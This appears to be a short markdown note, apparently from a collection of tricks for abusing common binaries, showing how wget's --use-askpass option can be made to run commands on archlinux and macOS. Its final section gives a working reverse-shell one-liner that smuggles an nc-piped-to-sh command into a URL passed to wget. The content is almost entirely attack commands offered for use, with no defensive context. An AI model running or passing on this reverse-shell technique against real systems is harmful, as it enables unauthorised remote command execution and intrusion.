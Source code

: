## archlinux (wget 1.19.2)
Annoyingly difficult, does not allow arguments:
```
wget --use-askpass='w' -O - http://127.0.0.1
```

## macOS (wget 1.19.1)
Annoyingly difficult, does not allow arguments:
```
wget --use-askpass='w' -O - http://127.0.0.1
```

## Reverse shell
wget can be coerced into giving a reverse shell with the following:
```
wget --use-askpass='watch' -O - "http://';nc 127.0.0.1 8000|sh|nc 127.0.0.1 8000;cat;'@127.0.0.1"
```
